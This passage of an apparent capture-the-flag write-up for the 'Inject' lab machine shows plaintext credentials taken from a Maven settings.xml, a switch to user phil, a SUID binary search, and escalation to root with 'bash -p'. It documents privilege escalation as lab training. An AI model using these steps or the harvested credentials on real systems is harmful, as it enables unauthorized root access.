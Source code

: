 Using the cat command to read the file, credentials to the phil user can be seen below.
```go
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

The output below shows that by using the credentials contained in settings.xml, the user can then use `su -l phil` to change to phil.
```go
bash-5.0$ su -l phil
su -l phil
Password: DocPhillovestoInject123
whoami
phil
```

## Root Shell
After escalating privileges to the phil user, the `find / -perm -4000 2>/dev/null` command was then used to find SUID binaries.
```go
/usr/bin/su
/usr/bin/bash
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

From here the user then executes `/usr/bin/bash -p` and escalates to root.
```go
bash-5.0$ /usr/bin/bash -p
/usr/bin/bash -p
bash-5.0# whoami
whoami
root
```